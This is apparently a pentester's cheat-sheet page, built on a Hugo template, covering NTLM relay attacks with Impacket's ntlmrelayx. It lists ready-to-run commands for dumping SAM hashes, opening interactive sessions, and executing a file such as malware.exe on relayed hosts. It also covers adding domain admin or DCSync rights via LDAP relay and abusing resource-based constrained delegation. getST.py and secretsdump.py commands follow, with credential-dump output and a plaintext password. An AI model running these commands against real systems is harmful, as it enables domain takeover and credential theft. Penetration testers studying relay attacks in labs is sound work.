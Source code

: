 ```yaml
---
### The title for the content.
title : "ntlmrelayx"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "ntlmrelayx"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "ntlmrelayx description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:46+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "ntlmrelayx"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## ntlmrelayx

### Relay to Workstations other Clients

#### dump SAM

`ntlmrelayx.py -tf targets.txt -smb2support`

#### interactive session

`ntlmrelayx.py -tf targets.txt -smb2support -i`

#### Execute a file

`ntlmrelayx.py -tf targets.txt -smb2support -e malware.exe`

#### Execute a command

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`

### Relay to AD with LDAP

#### Basic command

This command will:

- dump LDAP information
- if credentials allow it
  - add a Domain Admin account (user is added to Enterprise Admins group)
  - setup a 'domain user' account with ACL rights to preform a DCsync.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me`

Combine with secretsdump.py for fun.

```bash
secretsdump.py UDlGmXMPsh:'e=yZF&~+.RUJ|dh'@lab.justin-p.me -just-dc
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:a:a:::
Guest:501:a:a:::
krbtgt:502:a:a:::
```

#### Create a computer account in AD

Any user can create up to 10 computer accounts. Using the command below we can use relayed credentials to create a computer account. By default it will create a random computer account in the default computer OU.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --add-computer [OPTIONAL COMPUTERNAME]`

#### Abuse msDS-AllowedToActOnBehalfOfOtherIdentity

Works by default and does not require any AD credentials to perform!

Computer accounts can modify some of their own properties via LDAP, which includes the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. This attribute controls which users can authenticate to the computer as almost any account in AD via impersonation using Kerberos. This concept is called Resource-Based constrained delegation.

We can abuse this when we relay a computer account credential by modifying this attribute to give ourselves rights impersonate users on that computer.

The command below will add a new computer account to the domain, it will then add that computer account to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the relayed computer account.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --delegate-access`

Combine with getST.py and secretsdump.py for complete control over workstation.

```bash
getST.py -spn cifs/LAB-PC01.lab.justin-p.me lab.justin-p.me/test-machine\$ -impersonate administrator
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation

Password:
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache  
```

```bash
KRB5CCNAME=administrator.ccache 
secretsdump.py -k -no-pass LAB-PC01.lab.justin-p.me 
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb5f4662f815fdf939e16188273d583a2
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```
